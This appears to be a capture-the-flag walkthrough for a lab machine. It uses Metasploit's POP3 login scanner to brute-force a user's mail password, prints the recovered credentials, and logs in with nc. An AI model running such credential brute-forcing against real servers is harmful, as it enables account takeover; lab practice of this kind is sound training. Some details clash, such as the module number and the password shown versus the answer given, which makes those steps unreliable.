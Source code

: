 ```
   4  exploit/windows/pop3/seattlelab_pass          2003-05-07       great    No     Seattle Lab Mail 5.5 POP3 Buffer Overflow
   5  post/windows/gather/credentials/outlook                        normal   No     Windows Gather Microsoft Outlook Saved Password Extraction
   6  exploit/windows/smtp/ypops_overflow1          2004-09-27       average  Yes    YPOPS 0.6 Buffer Overflow
```
- We will be using the fourth module. Let's select it using the following command:
```
msf6 > use 3
msf6 auxiliary(scanner/pop3/pop3_login) > 
```
- Let's set up the module.
```
msf6 auxiliary(scanner/pop3/pop3_login) > set rhosts 10.10.251.22
rhosts => 10.10.251.22
msf6 auxiliary(scanner/pop3/pop3_login) > set user_file usernames.txt
user_file => usernames.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set pass_file passwords.txt
pass_file => passwords.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set verbose false
verbose => false
```
- We are now all set to brute force the login.
```
msf6 auxiliary(scanner/pop3/pop3_login) > run

[+] 10.10.251.22:110            - 10.10.251.22:110 - Success: seina:scooby2
```
### No answer needed

&nbsp;

### What was seina's password to the email service?
### Answer
```
scoobydoo2
```

&nbsp;

### Can you connect to the pop3 service with her credentials? What email information can you gather?
- We can connect to the Pop3 service using `nc`.
```
$ nc 10.10.251.22 110    
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
```
### No answer needed
